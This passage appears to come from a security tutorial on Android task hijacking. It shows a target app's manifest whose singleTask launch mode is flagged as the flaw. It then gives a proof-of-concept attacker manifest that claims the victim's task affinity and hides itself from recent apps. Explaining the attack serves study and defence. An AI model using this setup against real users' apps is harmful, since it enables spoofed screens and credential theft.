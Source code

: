         <application
            android:allowBackup="true"
            android:icon="@mipmap/ic_launcher"
            android:logo="@mipmap/ic_launcher"
            android:label="@string/app_name"
            android:roundIcon="@mipmap/ic_launcher_round"
            android:supportsRtl="true"
            android:theme="@style/Theme.SuperSecureApp">
            <activity android:name=".LoggedIn"></activity>
            <activity android:name=".MainActivity" android:launchMode="singleTask">
    
                <intent-filter>
                    <action android:name="android.intent.action.MAIN" />
    
                    <category android:name="android.intent.category.LAUNCHER" />
                </intent-filter>
            </activity>
        </application>
    </manifest>

Note the line with **`android:launchMode="singleTask"`.** This is where the vulnerability exists.

Now let's see the PoC for the Attacker's app. This is the `AndroidManifest.xml`.

    <?xml version="1.0" encoding="utf-8"?>
    <manifest xmlns:android="http://schemas.android.com/apk/res/android"
        xmlns:tools="http://schemas.android.com/tools"
        package="com.zombie.attackerapp"
        tools:ignore="ExtraText">
        <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
        <application
            android:allowBackup="true"
            android:icon="@mipmap/ic_launcher"
            android:label="@string/app_name"
            android:roundIcon="@mipmap/ic_launcher_round"
            android:supportsRtl="true"
            android:theme="@style/Theme.AttackerApp"
            android:taskAffinity="com.zombie.ssa">
            <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">
    
                <intent-filter>
                    <action android:name="android.intent.action.MAIN" />
    
                    <category android:name="android.intent.category.LAUNCHER" />
                </intent-filter>
            </activity>
        </application>
    </manifest>

Here, since we want to target our Super secure app, we'll define the task affinity using it's package name - `android:taskAffinity="com.zombie.ssa"`

Another flag `android:excludeFromRecents` ensures the task is not listed in the recent apps, therefore, hiding the attacker's app.
